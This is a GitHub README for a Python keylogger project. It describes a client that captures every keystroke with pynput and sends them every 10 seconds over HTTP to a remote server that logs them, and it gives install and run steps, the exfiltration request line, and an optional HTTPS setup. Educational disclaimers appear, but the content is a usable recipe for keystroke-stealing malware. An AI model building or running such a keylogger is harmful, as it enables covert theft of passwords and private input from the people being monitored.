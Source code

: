 
# 🕵️ Python Keylogger with Remote Logging Server

This project demonstrates a basic keylogger in Python (`keyloggerdk.py`) that captures keystrokes from a user machine and sends them over HTTP to a central logging server (`store_keystrokes_server.py`). The server stores the logs in a timestamped file (`keystrokes.log`).

⚠️ **For educational and authorized testing purposes only. Do NOT run this on any machine without explicit permission.**

---

## 📁 Project Structure

```
.
├── keyloggerdk.py             # Client-side keylogger
├── store_keystrokes_server.py # Server-side script to receive and store keystrokes
├── keystrokes.log             # Output file storing all received keystrokes
├── cert.pem                   # SSL certificate (for HTTPS, optional)
├── key.pem                    # SSL private key (for HTTPS, optional)
```

---

## 🔧 Requirements

- Python 3.x
- `pynput` and `requests` on the client
- No extra packages needed for the server (uses `http.server`)

### Install dependencies (on client):

```bash
pip install pynput requests
```

---

## ▶️ How It Works

### 🔹 Client — `keyloggerdk.py`

- Captures keystrokes using `pynput`.
- Stores them in a string (`text`).
- Every 10 seconds, sends them as JSON to the remote server using:
  ```python
  requests.post(f"http://<server_ip>:8080", data=json, headers={"Content-Type": "application/json"})
  ```

### 🔹 Server — `store_keystrokes_server.py`

- Listens on port `8080`.
- Accepts POST requests with JSON body.
- Extracts the `keyboardData` from the request and appends it to `keystrokes.log`.

---

## ✅ Running the Project

### 1. On the **Server** (receiver):

```bash
python store_keystrokes_server.py
```

Make sure port `8080` is open or forwarded (if behind NAT).

### 2. On the **Client** (sender):

Edit the IP in `keyloggerdk.py`:
```python
ip_address = "YOUR.SERVER.IP.ADDRESS"
```

Then run:
```bash
python keyloggerdk.py
```

Logs will appear in the server’s `keystrokes.log`.

---

## 🔐 (Optional) Enable HTTPS

### Step 1: Generate SSL Certificate (self-signed)
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

### Step 2: Modify `store_keystrokes_server.py`

Add to `run()`:
```python
import ssl
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='cert.pem', keyfile='key.pem', server_side=True)
```

### Step 3: Update `keyloggerdk.py`

Change:
```python
http → https
requests.post(..., verify=False)
```

---

## 🛡️ Security Note

This project is for **learning and demonstration only**. Real-world keyloggers are serious security threats and **illegal** without explicit permission. Use this responsibly in ethical hacking labs or CTFs.

---

## 📄 License

MIT License — Educational use only.
